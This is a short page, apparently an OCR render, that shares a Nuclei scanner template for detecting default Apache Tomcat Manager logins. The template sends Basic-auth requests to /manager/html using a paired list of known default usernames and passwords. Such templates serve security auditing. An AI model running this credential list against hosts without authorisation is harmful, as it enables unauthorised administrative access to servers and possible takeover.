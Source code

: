 这是nuclei的tomcat默认漏洞登录poc

```
id: tomcat-default-login

info:
  name: ApahceTomcat Manager Default Login
  author: pdteam
  severity: high
  description: Apache Tomcat Manager default login credentials were discovered. This template checks for multiple variations.
  reference:
    - https://www.rapid7.com/db/vulnerabilities/apache-tomcat-default-ovwebusr-password/
  tags: tomcat,apache,default-login

requests:
  - raw:
      - |
        GET /manager/html HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{base64(username + ':' + password)}}
    payloads:
      username:
        - tomcat
        - admin
        - ovwebusr
        - j2deployer
        - cxsdk
        - ADMIN
        - xampp
        - tomcat
        - QCC
        - admin
        - root
        - role1
        - role
        - tomcat
        - admin
        - role1
        - both
        - admin

      password:
        - tomcat
        - admin
        - OvW*busr1
        - j2deployer
        - kdsxc
        - ADMIN
        - xampp
        - s3cret
        - QLogic66
        - tomcat
        - root
        - role1
        - changethis
        - changethis
        - j5Brn9
        - tomcat
        - tomcat
        - 123456

    attack: pitchfork  # Available options: sniper, pitchfork and clusterbomb

```